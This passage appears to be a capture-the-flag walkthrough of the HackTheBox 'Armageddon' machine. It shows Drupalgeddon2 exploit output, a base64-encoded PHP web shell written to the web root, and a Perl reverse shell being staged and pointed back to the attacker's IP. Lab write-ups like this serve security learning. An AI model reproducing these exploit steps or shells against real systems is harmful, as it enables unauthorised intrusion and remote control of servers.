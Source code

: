 ```
┌──(kali㉿kali)-[~]
└─$ ruby 44449.rb http://armageddon.htb
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://armageddon.htb/
--------------------------------------------------------------------------------
[+] Found  : http://armageddon.htb/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo DMGWWYDY
[+] Result : DMGWWYDY
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://armageddon.htb/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://armageddon.htb/shell.php' -d 'c=hostname'
armageddon.htb>> whoami
apache
```

The web shell above isn't great, so we'll simply use it to download and execute a reverse shell. In this machine's case, we determined a Perl shell worked well.

Below we see the commands to transfer the shell to our attacking machine's Apache server, and start the server. The last `vim` command includes modifying the listening IP and port.
```
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo cp /usr/share/webshells/perl-reverse-shell.pl /var/www/html/perl-reverse-shell.pl
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo service apache2 start

┌──(kali㉿kali)-[/var/www/html]
└─$ sudo vim perl-reverse-shell.pl
```

We've modified the following portion of *perl-reverse-shell.pl*,  
```Perl
# Where to send the reverse shell.  Change these.
my $ip = '10.10.14.3';
my $port = 443;
```
